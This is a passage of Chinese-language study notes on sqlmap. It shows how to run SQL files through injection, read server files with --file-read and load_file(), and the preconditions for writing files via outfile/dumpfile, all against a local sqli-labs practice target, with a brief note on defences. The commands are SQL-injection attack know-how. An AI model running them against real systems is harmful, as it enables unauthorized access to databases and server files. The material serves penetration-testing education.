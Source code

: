 ##### c. --sql-file

* 直接执行sql文件中的语句

```sql
sqlmap -u [URL] --sql-file=sql文件

python sqlmap.py -u "127.0.0.1/sqli-labs-master/Less-1/?id=1" --sql-file="D:\NetTools\sqlmap\sql_file.sql"

sql_file.sql内容：
select version();
select @@datadir;	#输出mysql存放数据的路径
```

#### (6). 文件操作

##### a. 防御

* 输入时对**敏感语句过滤**
* my.ini中配置secure_file_priv=**null**

##### b. 读文件

###### ①满足条件

1. **secure_file_priv**不为**null**
2. mysql有对某个**目录读写**的权限
3. 知道**绝对路径**
4. 文件**必须在服务器上存在**
5. max_allowed_packed     //读写文件最大的字节数

###### ②--file-read

* 原理：利用**load_file()**函数

```sql
sqlmap -u [url] --file-read "文件绝对路径"		#读取文件可以是文本、二进制文件

python sqlmap.py -u "http://127.0.0.1/sqli-labs-master/Less-1/?id=1" --file-read "D:\phpstudy_pro\WWW\test.txt"
```

##### c. 写文件

###### ①满足条件

1. 有**写文件**权限
   * **secure-file-priv**不为**null**
   * mysql有对某个**目录读写**的权限
2. **知道绝对路径**
3. 必须能**绕过单引号过滤**

###### ②使用--sql-query、--sql-shell

* 原理：利用mysql的 **outfile、dumpfile**函数
